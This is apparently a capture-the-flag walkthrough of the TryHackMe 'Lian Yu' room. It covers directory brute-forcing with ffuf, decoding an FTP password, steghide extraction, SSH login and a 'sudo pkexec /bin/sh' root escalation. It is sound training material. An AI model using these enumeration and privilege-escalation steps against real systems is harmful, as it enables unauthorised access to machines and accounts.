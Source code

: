 # Lian Yu (THM)

- https://tryhackme.com/room/lianyu
- March 4, 2023
- easy
- difficult before getting into shell

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.2
2. 22/ssh OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
3. 80/http Apache httpd
4. 111/rcpbind

### HTTP

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt -c -t 128
```

- found `island`

```html
<h1> Ohhh Noo, Don't Talk............... </h1>
<p> I wasn't Expecting You at this Moment. I will meet you there </p><!-- go!go!go! -->
<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>
```

- nothing special found and brute force to that directory

```sh
$ ffuf -u http://$IP/island/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt -c -t 128
```

- found `2100`

```html
<body>
  <h1 align="center">How Oliver Queen finds his way to Lian_Yu?</h1>
  <p align="center">
    <iframe
      width="640"
      height="480"
      src="https://www.youtube.com/embed/X8ZiFuW41yY"
    >
    </iframe>
  </p>

  <p>
    <!-- you can avail your .ticket here but how?   -->
  </p>
</body>
```

- brute force with that directory to that directory with .ticket extension

```sh
$ ffuf -u http://$IP/island/2100/FUZZ.ticket -w /usr/share/wordlists/directory-list-2.3-medium.txt -c -t 128
```

- `green_arrow` found
- `http://10.10.14.110/island/2100/green_arrow.ticket`

```
This is just a token to get into Queen's Gambit(Ship)
RTy8yhBQdscX
```

- it is base58 encoded version - `!#th3h00d`
- enter ftp with username `vigilante` which is found at /island directory and with password `!#th3h00d`
- found 2 users

![](images/2023-03-05-00-46-29.png)

- found 8 files
- get to local machine
- `Leave_me_alone.png` is not an image file yet

- check with hexedit

![](images/2023-03-05-00-29-51.png)

- change first digits to `89 50 4E 47 0D 0A 1A 0A` which is png's magic number

![](images/2023-03-05-00-33-50.png)

- can open that png file

![](images/2023-03-05-00-36-05.png)

- then use steghide to extract hidden files

```sh
$ steghide extract -sf aa.jpg
# enter passphrase with password
# get ss.zip file
```

- extract zip file and get shado file which may be password for ssh

## Get User Access

- enter ssh with that password
- Don't know which user and enter both.
- it is for slade's ssh password

```sh
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec

```

## Get Root Access

- find gtfobin for pkexec

```sh
slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
```

---
